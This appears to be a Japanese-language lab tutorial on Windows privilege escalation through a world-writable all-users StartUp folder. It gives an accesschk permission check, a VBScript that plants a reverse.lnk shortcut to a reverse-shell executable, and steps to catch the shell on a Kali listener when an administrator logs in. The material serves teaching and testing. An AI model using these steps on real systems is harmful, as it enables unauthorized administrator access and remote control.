 Windowsには、すべてのユーザーが起動するアプリを格納するスタートアップディレクトリがあります。 C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp このディレクトリにファイルを作成できれば、リバースシェル実行ファイルを使用して、管理者がログインしたときに特権をエスカレートさせることができます。   
ショートカットファイル（.lnk）を使用する必要があることに注意してください。ショートカットファイルの作成には、以下のVBScriptを使用することができます。
```
Set oWS = WScript.CreateObject("WScript.Shell") sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk" Set oLink = oWS.CreateShortcut(sLinkFile) oLink.TargetPath = "C:\PrivEsc\reverse.exe" oLink.Save
```
# Privilege Escalation
1. accesschk.exeを使用して、StartUpディレクトリのパーミッションを確認します。
```
> .\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Star t Menu\Programs\StartUp"
```
2. BUILTIN\Usersグループは、このディレクトリへの書き込み権限があることに注意してください。
3. 前のスライドで提供されたVBScriptでCreateShortcut.vbsというファイルを作成します。必要に応じてファイルのパスを変更してください。
4. cscriptでスクリプトを実行します。
```
> cscript CreateShortcut.vbs
```
5. Kali上でリスナーを起動し、管理者ユーザーとしてログインしてエクスプロイトを発動させます。
